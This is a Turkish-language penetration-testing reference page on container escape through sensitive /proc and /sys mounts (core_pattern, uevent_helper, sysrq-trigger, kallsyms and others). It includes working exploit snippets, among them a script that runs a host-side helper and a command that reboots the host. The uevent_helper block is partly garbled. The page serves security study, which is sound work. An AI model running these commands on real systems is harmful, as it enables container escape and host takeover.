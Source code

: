 # Hassas Montajlar

{{#include ../../../../banners/hacktricks-training.md}}

`/proc` ve `/sys`'in uygun ad alanı izolasyonu olmadan açılması, saldırı yüzeyinin genişlemesi ve bilgi sızıntısı gibi önemli güvenlik riskleri oluşturur. Bu dizinler, yanlış yapılandırıldığında veya yetkisiz bir kullanıcı tarafından erişildiğinde, konteyner kaçışına, ana makine değişikliğine veya daha fazla saldırıyı destekleyen bilgilerin sağlanmasına yol açabilecek hassas dosyalar içerir. Örneğin, `-v /proc:/host/proc`'un yanlış bir şekilde montajı, yol tabanlı doğası nedeniyle AppArmor korumasını atlayabilir ve `/host/proc`'u korumasız bırakabilir.

**Her potansiyel zafiyetin daha fazla detayını bulabilirsiniz** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Zafiyetleri

### `/proc/sys`

Bu dizin, genellikle `sysctl(2)` aracılığıyla çekirdek değişkenlerini değiştirme erişimi sağlar ve birkaç endişe verici alt dizin içerir:

#### **`/proc/sys/kernel/core_pattern`**

- [core(5)](https://man7.org/linux/man-pages/man5/core.5.html) içinde tanımlanmıştır.
- Çekirdek dosyası oluşturulduğunda yürütülecek bir program tanımlamaya izin verir; ilk 128 bayt argüman olarak kullanılır. Dosya bir boru `|` ile başlarsa, kod yürütülmesine yol açabilir.
- **Test ve Sömürü Örneği**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Yazma erişimini test et
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Özel işleyici ayarla
sleep 5 && ./crash & # İşleyiciyi tetikle
```

#### **`/proc/sys/kernel/modprobe`**

- [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) içinde detaylandırılmıştır.
- Çekirdek modül yükleyicisinin yolunu içerir, çekirdek modüllerini yüklemek için çağrılır.
- **Erişim Kontrolü Örneği**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # modprobe erişimini kontrol et
```

#### **`/proc/sys/vm/panic_on_oom`**

- [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) içinde referans verilmiştir.
- OOM durumu meydana geldiğinde çekirdeğin panik yapıp yapmayacağını kontrol eden bir küresel bayraktır.

#### **`/proc/sys/fs`**

- [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) gereğince, dosya sistemi hakkında seçenekler ve bilgiler içerir.
- Yazma erişimi, ana makineye karşı çeşitli hizmet reddi saldırılarını etkinleştirebilir.

#### **`/proc/sys/fs/binfmt_misc`**

- Sihirli numaralarına dayalı olarak yerel olmayan ikili formatlar için yorumlayıcıların kaydedilmesine izin verir.
- `/proc/sys/fs/binfmt_misc/register` yazılabilir olduğunda ayrıcalık yükselmesine veya root shell erişimine yol açabilir.
- İlgili sömürü ve açıklama:
- [Poor man's rootkit via binfmt_misc](https://github.com/toffan/binfmt_misc)
- Derinlemesine eğitim: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Diğerleri `/proc` içinde

#### **`/proc/config.gz`**

- `CONFIG_IKCONFIG_PROC` etkinse çekirdek yapılandırmasını açığa çıkarabilir.
- Saldırganlar için çalışan çekirdekteki zafiyetleri tanımlamak için faydalıdır.

#### **`/proc/sysrq-trigger`**

- Sysrq komutlarını çağırmaya izin verir, bu da ani sistem yeniden başlatmalarına veya diğer kritik eylemlere neden olabilir.
- **Ana Makineyi Yeniden Başlatma Örneği**:

```bash
echo b > /proc/sysrq-trigger # Ana makineyi yeniden başlatır
```

#### **`/proc/kmsg`**

- Çekirdek halka tamponu mesajlarını açığa çıkarır.
- Çekirdek sömürülerine, adres sızıntılarına yardımcı olabilir ve hassas sistem bilgilerini sağlayabilir.

#### **`/proc/kallsyms`**

- Çekirdek tarafından dışa aktarılan sembolleri ve adreslerini listeler.
- Çekirdek sömürü geliştirme için önemlidir, özellikle KASLR'yi aşmak için.
- Adres bilgileri `kptr_restrict` `1` veya `2` olarak ayarlandığında kısıtlanır.
- Detaylar [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) içinde.

#### **`/proc/[pid]/mem`**

- Çekirdek bellek cihazı `/dev/mem` ile arayüz sağlar.
- Tarihsel olarak ayrıcalık yükseltme saldırılarına karşı savunmasızdır.
- Daha fazla bilgi [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) içinde.

#### **`/proc/kcore`**

- Sistemin fiziksel belleğini ELF çekirdek formatında temsil eder.
- Okuma, ana makine sistemi ve diğer konteynerlerin bellek içeriklerini sızdırabilir.
- Büyük dosya boyutu okuma sorunlarına veya yazılım çökmesine yol açabilir.
- Detaylı kullanım [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/) içinde.

#### **`/proc/kmem`**

- Çekirdek sanal belleğini temsil eden `/dev/kmem` için alternatif bir arayüzdür.
- Okuma ve yazma işlemlerine izin verir, dolayısıyla çekirdek belleğini doğrudan değiştirebilir.

#### **`/proc/mem`**

- Fiziksel belleği temsil eden `/dev/mem` için alternatif bir arayüzdür.
- Okuma ve yazma işlemlerine izin verir, tüm belleği değiştirmek sanal adresleri fiziksel adreslere çözmeyi gerektirir.

#### **`/proc/sched_debug`**

- PID ad alanı korumalarını atlayarak süreç zamanlama bilgilerini döndürür.
- Süreç adlarını, kimliklerini ve cgroup tanımlayıcılarını açığa çıkarır.

#### **`/proc/[pid]/mountinfo`**

- Sürecin montaj ad alanındaki montaj noktaları hakkında bilgi sağlar.
- Konteyner `rootfs` veya görüntüsünün konumunu açığa çıkarır.

### `/sys` Zafiyetleri

#### **`/sys/kernel/uevent_helper`**

- Çekirdek cihaz `uevent`'lerini işlemek için kullanılır.
- `/sys/kernel/uevent_helper`'a yazmak, `uevent` tetikleyicileri üzerine rastgele betikler çalıştırabilir.
- **Sömürü Örneği**: %%%bash

#### Bir yük oluşturur

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Konteyner için OverlayFS montajından ana makine yolunu bulur

host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

#### uevent_helper'ı kötü niyetli yardımcıya ayarlar

echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

#### Bir uevent tetikler

echo change > /sys/class/mem/null/uevent

#### Çıktıyı okur

cat /output %%%

#### **`/sys/class/thermal`**

- Sıcaklık ayarlarını kontrol eder, bu da DoS saldırılarına veya fiziksel hasara neden olabilir.

#### **`/sys/kernel/vmcoreinfo`**

- Çekirdek adreslerini sızdırır, bu da KASLR'yi tehlikeye atabilir.

#### **`/sys/kernel/security`**

- Linux Güvenlik Modüllerinin (AppArmor gibi) yapılandırılmasına izin veren `securityfs` arayüzünü barındırır.
- Erişim, bir konteynerin MAC sistemini devre dışı bırakmasına olanak tanıyabilir.

#### **`/sys/firmware/efi/vars` ve `/sys/firmware/efi/efivars`**

- NVRAM'daki EFI değişkenleri ile etkileşim kurmak için arayüzler açığa çıkarır.
- Yanlış yapılandırma veya sömürü, bozuk dizüstü bilgisayarlara veya başlatılamayan ana makinelerle sonuçlanabilir.

#### **`/sys/kernel/debug`**

- `debugfs`, çekirdeğe "kural yok" hata ayıklama arayüzü sunar.
- Kısıtlanmamış doğası nedeniyle güvenlik sorunları geçmişi vardır.

### Referanslar

- [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
- [Linux Konteynerlerini Anlama ve Güçlendirme](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
- [Ayrıcalıklı ve Ayrıcalıksız Linux Konteynerlerini Kötüye Kullanma](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)

{{#include ../../../../banners/hacktricks-training.md}}
